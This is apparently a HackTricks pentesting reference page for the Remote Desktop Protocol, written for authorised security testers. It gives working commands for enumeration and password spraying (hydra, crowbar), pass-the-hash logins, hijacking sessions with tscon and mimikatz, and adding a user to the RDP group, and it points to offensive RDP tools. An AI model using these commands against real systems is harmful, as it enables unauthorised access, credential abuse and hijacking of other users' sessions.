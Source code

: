 # 3389 - Pentesting RDP



## Basic Information

Developed by Microsoft, the **Remote Desktop Protocol** (**RDP**) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, **RDP** client software is utilized by the user, and concurrently, the remote computer is required to operate **RDP** server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

**Default port:** 3389

```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
```
## Enumeration

### Automatic

```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
```
It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

### [[../generic-hacking/brute-force.md#rdp|Brute force]]

**Be careful, you could lock accounts**

### **Password Spraying**

**Be careful, you could lock accounts**

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
```
### Connect with known credentials/hash

```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
```
### Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```bash
rdp_check <domain>/<name>:<password>@<IP>
```
```

## **Attacks**

### Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```
```
**Access to the selected session**

```bash
tscon <ID> /dest:<SESSIONNAME>
```
```
Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

**Important**: When you access an active RDP sessions you will kickoff the user that was using it.

You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

#### **Mimikatz**

You could also use mimikatz to do this:

```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
```
### Sticky-keys & Utilman

Combining this technique with **stickykeys** or **utilman you will be able to access a administrative CMD and any RDP session anytime**

You can search RDPs that have been backdoored with one of these techniques already with: [[https://github.com/linuz/Sticky-Keys-Slayer|https://github.com/linuz/Sticky-Keys-Slayer]]

### RDP Process Injection

If someone from a different domain or with **better privileges login via RDP** to the PC where **you are an Admin**, you can **inject** your beacon in his **RDP session process** and act as him:

[[../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md]]

### Adding User to RDP group

```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
```
## Automatic Tools

- [[https://github.com/JoelGMSec/AutoRDPwn|**AutoRDPwn**]]

**AutoRDPwn** is a post-exploitation framework created in Powershell, designed primarily to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to **view his victim's desktop without his consent**, and even control it on demand, using tools native to the operating system itself.

- [[https://github.com/skelsec/evilrdp|**EvilRDP**]]
  - Control mouse and keyboard in an automated way from command line
  - Control clipboard in an automated way from command line
  - Spawn a SOCKS proxy from the client that channels network communication to the target via RDP
  - Execute arbitrary SHELL and PowerShell commands on the target without uploading files
  - Upload and download files to/from the target even when file transfers are disabled on the target

- [[https://github.com/0xthirteen/SharpRDP|**SharpRDP**]]

This tool allows to execute commands in the victim RDP **without needing a graphical interface**.

## HackTricks Automatic Commands

```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for RDP
  Note: |
    Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html

Entry_2:
  Name: Nmap
  Description: Nmap with RDP Scripts
  Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
```



